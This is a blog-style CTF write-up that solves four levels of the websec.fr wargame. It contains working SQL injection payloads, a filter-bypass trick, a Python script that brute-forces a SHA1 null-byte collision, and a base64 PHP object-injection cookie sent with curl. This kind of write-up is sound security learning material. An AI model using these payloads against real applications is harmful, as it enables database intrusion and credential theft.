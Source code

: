 ```yaml
---
layout: blog
title: "CTF Writeup: websec.ft wargames"
date: 2020-05-27T18:23:59.297Z
tags:
  - ctf_writeup
---
```


CTF writeup of http://websec.fr/ war-games.

<!--more-->

# websec.fr writeups

## Level 01

```php
class LevelOne {
    public function doQuery($injection) {
        $pdo = new SQLite3('database.db', SQLITE3_OPEN_READONLY);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query($query);
        $users = $getUsers->fetchArray(SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

The level one is straightforward, the source code is given so we just have to use `union select`

```sql
SELECT id,username FROM users WHERE id=1 OR 1=2 union select username,password from users where id = 1 LIMIT 1
```

so the payload is: `1 AND 1=2 union select username,password from users where id = 1`

Explanation:

1. we have to bypass first select by making it false, using `AND {false_statement}` so `1=2` == `false`

2. after making the first term `false` we now can use union select with password as my guest column

## Level 02

```php
class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}
```

the query is just the same as the first level, but with limitation, the query is filtered using `preg_replace`

I’m using php interactive shell to try preg*match, it turns out it does not filter it \_recursively*

```shell
❯ ./psysh
Psy Shell v0.10.4 (PHP 7.3.11 — cli) by Justin Hileman
>>> $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
=> "union|order|select|from|group|by"
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "from");
=> ""
>>> $injection = preg_replace ('/' . $searchWords . '/i', '', "frfromom");
=> "from"
```

so we can bypass the query just by modifying forbidden word

final query: `1 and 1=2 UNunionION SELselectECT username,password FRfromOM users where id =1 --`

## Level 03

When doing this challenge, I notice after copying the source code to my text editor, is the `sha1` function is written with argument `fa1se` not `false`. It makes the `sha1`'s parameter raw_output equals to `true`, so the output is raw binary.

So what? we notic that we can truncate the byte with null terminator `\0`. Fortunately, the hash of the password in the challenge contains null byte too:(`7c00249d409a91ab84e3f421c193520d9fb3674b`)

So we can make a hash collision by finding a hash that starts with: `0x7c 0x00`

I wrote a script,

```python
import hashlib
import base64
import codecs
import requests
import re

the_answer = ""

i = 0
while True:
    v = "%x" % i
    v = "0" + v if len(v) % 2 == 1 else v
    v = base64.b64encode(codecs.decode(v, "hex"))
    h = hashlib.sha1(v).digest()[:2]
    if h == b"\x7c\x00":
        the_answer = str(v).replace("b", "").replace("\'", "")
        break
    i += 1


r = requests.post('http://websec.fr/level03/index.php', data={'c': the_answer })
flag = re.search(r'(.*?WEBSEC.*?)\n', r.text)
print(flag.group(0))
```

## Level 04

given this source code, lets analyze the codes:

```php
// source1.php
<?php
include 'connect.php';

$sql = new SQL();
$sql->connect();
$sql->query = 'SELECT username FROM users WHERE id=';


if (isset ($_COOKIE['leet_hax0r'])) {
    $sess_data = unserialize (base64_decode ($_COOKIE['leet_hax0r']));
    try {
        if (is_array($sess_data) && $sess_data['ip'] != $_SERVER['REMOTE_ADDR']) {
            die('CANT HACK US!!!');
        }
    } catch(Exception $e) {
        echo $e;
    }
} else {
    $cookie = base64_encode (serialize (array ( 'ip' => $_SERVER['REMOTE_ADDR']))) ;
    setcookie ('leet_hax0r', $cookie, time () + (86400 * 30));
}

if (isset ($_REQUEST['id']) && is_numeric ($_REQUEST['id'])) {
    try {
        $sql->query .= $_REQUEST['id'];
    } catch(Exception $e) {
        echo ' Invalid query';
    }
}
```

1. There is unserialize method without input validation, we can assume we can use PHP object injection attack
2. We can abuse the unserialize method by crafting our payload on cookies

```php
//source2.php

<?php

class SQL {
    public $query = '';
    public $conn;
    public function __construct() {
    }

    public function connect() {
        $this->conn = new SQLite3 ("database.db", SQLITE3_OPEN_READONLY);
    }

    public function SQL_query($query) {
        $this->query = $query;
    }

    public function execute() {
        return $this->conn->query ($this->query);
    }

    public function __destruct() {
        if (!isset ($this->conn)) {
            $this->connect ();
        }

        $ret = $this->execute ();
        if (false !== $ret) {
            while (false !== ($row = $ret->fetchArray (SQLITE3_ASSOC))) {
                echo '<p class="well"><strong>Username:<strong> ' . $row['username'] . '</p>';
            }
        }
    }
}
```

1. We can see from the source2, the codes implemented magic function `__descruct()`, this magic function will be called automatically without invocation.
2. furthermore, from `__destruct()` method, it will query to database and show `$row[username]` field, so actually we have to craft `UNION` query but it's easier to use `AS` keyword to change from username field to password field

We can craft the payload using this php script:

```php
// payload.php

<?php

class SQL
{
    public $query = 'SELECT password AS username FROM users WHERE id=1';
    public $conn;
}

$serialized = serialize(new SQL());
echo base64_encode($serialized);
```

output generated: `TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9`

try this using curl, or using browser and set your cookie

```shell
❯ curl -b 'leet_hax0r=TzozOiJTUUwiOjI6e3M6NToicXVlcnkiO3M6NDk6IlNFTEVDVCBwYXNzd29yZCBBUyB1c2VybmFtZSBGUk9NIHVzZXJzIFdIRVJFIGlkPTEiO3M6NDoiY29ubiI7Tjt9' http://websec.fr/level04/index.php
```

further reads:

- https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection

- https://www.notsosecure.com/remote-code-execution-via-php-unserialize/
